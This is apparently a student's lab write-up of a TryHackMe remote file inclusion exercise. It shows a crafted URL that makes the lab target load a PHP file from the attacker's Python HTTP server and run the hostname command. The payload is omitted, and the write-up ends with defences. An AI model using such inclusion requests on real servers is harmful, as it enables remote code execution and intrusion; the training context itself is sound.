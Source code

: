 ﻿# Lab Title: RFI Lab #6 - Remote File Inclusion & RCE
Date: 2025-09-10

## Target
- TryHackMe LFI room (Lab #6 - Playground)

## Commands / Steps
1. Created a malicious file `evil.txt` with PHP code:
   <php ...payload omitted... >


2. Hosted the file locally with Python: python3 -m http.server 8000
3. Crafted the RFI exploit URL to include the malicious file: http://10.10.227.16/playground.php?file=http://10.10.219.135:8000/evil.txt&cmd=hostname

4. Sent request with cmd=hostname to confirm Remote Code Execution (RCE). 

## Results
- The server executed the hostname command.
- Output revealed the victim machine’s hostname (proving code execution).

## Screenshots
- ![Lab #6 output](../Screenshots/2025-09-10-rfi-lab6.png)

## What I Learned
- RFI lets an attacker load remote files into the server’s process.
- By injecting PHP code, I turned LFI into RCE.
- The hostname command proves execution happens on the target, not the attacker.
- Defense: disable allow_url_include in PHP, validate input strictly, and use whitelists for includes.